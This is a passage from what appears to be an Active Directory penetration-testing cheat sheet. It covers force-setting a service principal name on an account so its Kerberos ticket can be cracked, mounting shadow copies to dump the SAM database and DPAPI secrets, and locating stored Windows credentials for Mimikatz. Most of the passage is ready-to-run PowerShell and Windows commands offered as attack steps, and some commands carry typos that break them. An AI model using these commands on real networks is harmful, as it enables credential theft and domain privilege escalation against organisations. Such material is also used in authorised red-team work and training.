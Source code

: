 #### **Force Set SPN**

_WUT IS DIS ?: If we have enough permissions -> GenericAll/GenericWrite we can set a SPN on a target account, request a TGS, then grab its blob and bruteforce it._

* PowerView:

```
#Check for interesting permissions on accounts:
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentinyReferenceName -match "RDPUsers"}
 
#Check if current user has already an SPN setted:
Get-DomainUser -Identity <UserName> | select serviceprincipalname
 
#Force set the SPN on the account:
Set-DomainObject <UserName> -Set @{serviceprincipalname='ops/whatever1'}
```

* AD Module:

```
#Check if current user has already an SPN setted
Get-ADUser -Identity <UserName> -Properties ServicePrincipalName | select ServicePrincipalName
  
#Force set the SPN on the account:
Set-ADUser -Identiny <UserName> -ServicePrincipalNames @{Add='ops/whatever1'}
```

Finally use any tool from before to grab the hash and kerberoast it!

#### **Abusing Shadow Copies**

If you have local administrator access on a machine try to list shadow copies, it’s an easy way for Domain Escalation.

```
#List shadow copies using vssadmin (Needs Admnistrator Access)
vssadmin list shadows
  
#List shadow copies using diskshadow
diskshadow list shadows all
  
#Make a symlink to the shadow copy and access it
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
```

1. You can dump the backuped SAM database and harvest credentials.
2. Look for DPAPI stored creds and decrypt them.
3. Access backuped sensitive files.

#### **List and Decrypt Stored Credentials using Mimikatz**

Usually encrypted credentials are stored in:

* `%appdata%\Microsoft\Credentials`
* `%localappdata%\Microsoft\Credentials`
